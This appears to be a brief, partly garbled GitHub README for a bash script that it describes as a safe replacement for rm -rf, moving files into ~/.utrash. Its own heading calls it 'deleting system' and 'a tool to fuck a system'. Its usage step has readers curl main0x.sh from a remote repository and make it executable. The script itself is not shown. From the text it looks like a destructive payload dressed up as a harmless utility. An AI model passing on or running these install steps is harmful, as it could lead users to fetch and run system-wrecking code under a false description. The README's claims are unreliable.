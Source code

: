 # deleting system
because rm -rf is dangerous...
this is a tool to fuck a system
# Background
Developers instinctively use rm -rf and as we all know this cannot be reversed.

This is a small bash script which will just create folder called ~/.utrash and move your file / folder
to that location instead of deleting it.

Delete stuff later with caution

# Using it
Just do the following:

`curl https://github.com/04Q/toolv/raw/master/main0x.sh `

#chmod +x main0x.sh



*and you should be good to go*
